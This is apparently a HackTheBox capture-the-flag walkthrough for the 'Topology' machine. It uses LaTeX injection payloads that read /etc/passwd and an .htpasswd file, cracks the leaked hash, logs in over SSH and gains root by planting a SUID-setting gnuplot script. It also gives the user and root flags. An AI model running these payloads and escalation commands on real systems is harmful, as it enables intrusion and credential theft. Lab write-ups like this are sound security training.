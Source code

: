 ```yaml
---
title: 'HackTheBox: Topology'
disqus: hackmd
---
```


HackTheBox: Topology
===


## Table of Contents

[TOC]

## Topic

### Lab
#### HackTheBox: 
https://app.hackthebox.com/machines/Topology

### Initial Enumeration

●Start Machine: \
![](https://hackmd.io/_uploads/HJ8NFx2z6.png)


## Solution

### 1. Attempt

#### 1.1 Edit /etc/hosts
/etc/hosts
> 10.10.11.217    topology.htb

#### 1.2 Browse http://topology.htb/
![](https://hackmd.io/_uploads/Hk9Uqx2Ga.png)

#### 1.3 nmap scan 
> nmap -sC -sV -T4 10.10.11.217

![](https://hackmd.io/_uploads/Hy2msl2GT.png)
#### 1.4 dirsearch scan
> dirsearch -u http://topology.htb/

![](https://hackmd.io/_uploads/rkvcZ-2fa.png)
> /.htpasswd_test
> /.htpasswds

#### 1.5 Subdomain latex.topology.htb 
![](https://hackmd.io/_uploads/BJQgA62f6.png)
Edit /etc/hosts
/etc/hosts
> 10.10.11.217    latex.topology.htb

![](https://hackmd.io/_uploads/rJ9vCanfp.png)

#### 1.6 Attempt LaTeX Equation Generator
Test:
> chwchw

![](https://hackmd.io/_uploads/BkTmJChGa.png)
> http://latex.topology.htb/equation.php?eqn=chwchw&submit=

![](https://hackmd.io/_uploads/HJU8JRnMp.png)

### 2. Command Injection
● [LaTex 基本介紹](https://albertyzp.github.io/2019/10/15/LaTex%E5%9F%BA%E7%A1%80%E6%89%8B%E5%86%8C/#%E4%B8%80-latex%E5%9F%BA%E6%9C%AC%E6%A6%82%E5%BF%B5)\
● [LaTex listening source code](https://en.wikibooks.org/wiki/LaTeX/Source_Code_Listings)\
●\lstinputlisting{} 是Command，不是數學符號，所以用$ $ 將內部原始碼$閉合。\
![image.png](https://hackmd.io/_uploads/rylP77b76.png)

```
$\lstinputlisting{/etc/passwd}$
```
![](https://hackmd.io/_uploads/Sk9heCnMa.png)

```
@hewen
input 引用另一個 LaTeX 文檔；lstinputlisting 引用外部檔案
$\lstinputlisting{/etc/hosts}$
eqn=$\lstinputlisting{/etc/apache2/apache2.conf}$ #Apache server
```

```
$\lstinputlisting{/var/www/dev/.htpasswd}$
```
![](https://hackmd.io/_uploads/rJEp-A2zp.png)
Get user/password
> vdaisley:$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0
> user: vdaisley
> password: $apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0
#### 2.1 [Password Formats:$ apr1 $](https://httpd.apache.org/docs/2.4/misc/password_encryptions.html)

MD5
"$ apr1 $" + the result of an Apache-specific algorithm using an iterated (1,000 times) MD5 digest of various combinations of a random 32-bit salt and the password. See the APR source file apr_md5.c for the details of the algorithm.

#### 2.2 John-the-Ripper tools 
Hash工具破解工具:MD5、SHA1、SHA256、MySQL 與NTLM 的雜湊
> sudo apt-get install john -y
> john --wordlist=rockyou.txt ./topology.txt

![](https://hackmd.io/_uploads/HyVyrlaMT.png)
> password(MD5 decrypt): calculus20

### 3. SSH Login
> ssh vdaisley@10.10.11.217
> ls -al

![](https://hackmd.io/_uploads/HkbbIlpMa.png)
> cat user.txt

![](https://hackmd.io/_uploads/H1E78eTMp.png)
### 4. GET USER FLAG
> **FLAG: 995aae620785c32d38235ff75eb0cc34**

### 5. Gnuplot
●Gunplot: 繪圖工具(產生plt file)
> ls -al /opt

![](https://hackmd.io/_uploads/B17DarCzT.png)

### 6. pspy Tools
●[pspy tools](https://www.freebuf.com/articles/web/254452.html): 不需root權限即可監聽。
●GitHub: [pspy-unprivileged Linux process snooping](https://github.com/DominicBreuker/pspy?source=post_page-----1e4cf07d7805--------------------------------#pspy---unprivileged-linux-process-snooping) 
> wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64
> chmod +x pspy64 //給執行權限
> ./pspy64

![image.png](https://hackmd.io/_uploads/SJyry51QT.png)
#### 6.1 SSH download pspy from local
>python3 -m http.server
vdaisley@topology:~$ wget 10.10.16.35:8000/pspy64

![image.png](https://hackmd.io/_uploads/H1fvkqymp.png)

![image.png](https://hackmd.io/_uploads/BJdwJ9ymT.png)
> vdaisley@topology:~$ ls
pspy64  user.txt
vdaisley@topology:~$ chmod +x pspy64 
vdaisley@topology:~$ ./pspy64
pspy - version: v1.2.1 - Commit SHA: f9e6a1590a4312b9faa093d8dc84e19567977a6d
     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░  
                   ░           ░ ░     

#### 6.2 chmod new .plt file
● [Gnuplot Privilege Escalation](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/gnuplot-privilege-escalation/?source=post_page-----1e4cf07d7805--------------------------------)
● [chmod command](https://zh.wikipedia.org/zh-tw/Chmod)
> vdaisley@topology:~$ echo "system 'chmod u+s /bin/bash'" > /opt/gnuplot/chw.plt
vdaisley@topology:~$ cat /opt/gnuplot/chw.plt
system 'chmod u+s /bin/bash'
vdaisley@topology:~$ ls -al /opt/gnuplot/chw.plt
-rw-rw-r-- 1 vdaisley vdaisley 29 Nov  1 04:22 /opt/gnuplot/chw.plt

```
@hewen
執行這個檔案的時後以檔案擁有者身份執行，而不是以當前使用者的身份執行。
雖然執行時會出現 error，但檔案屬性還是改變了
/bin/bash -p
```

> vdaisley@topology:/tmp$ /bin/bash -p
bash-5.0# 

![image.png](https://hackmd.io/_uploads/r1lUnZcyQa.png)
> bash-5.0# id
uid=1007(vdaisley) gid=1007(vdaisley) euid=0(root) groups=1007(vdaisley)
![image.png](https://hackmd.io/_uploads/H1Baa9y76.png)
> bash-5.0# cd /root
bash-5.0# ls
root.txt
bash-5.0# cat root.txt 

![image.png](https://hackmd.io/_uploads/B131z91mp.png)


### 7. GET ROOT FLAG
> **FLAG: 2cf94752042e7319560bf84534369988**

###### tags: `CTF` `Web` `nmap` `dirsearch` `Command Injection` `pspy` `John-the-Ripper` `MD5`
